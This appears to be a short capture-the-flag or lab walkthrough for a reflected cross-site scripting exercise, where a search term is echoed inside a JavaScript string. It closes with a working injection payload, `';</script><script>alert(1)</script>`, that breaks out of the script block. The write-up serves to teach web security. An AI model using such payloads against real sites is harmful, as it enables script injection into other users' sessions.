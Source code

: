 ## Solution steps

- Enter a random string in the search box like: `hello`
- View page source and notice it gets reflected in a javascript
  `<script>
    var searchTerms = 'hello';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
  </script>`
- So now we just have to breaks out of this JavaScript.
- Close the string using `'` and `;</script>` will end the original script block.
- Enter this final payload in the search box: `';</script><script>alert(1)</script>`

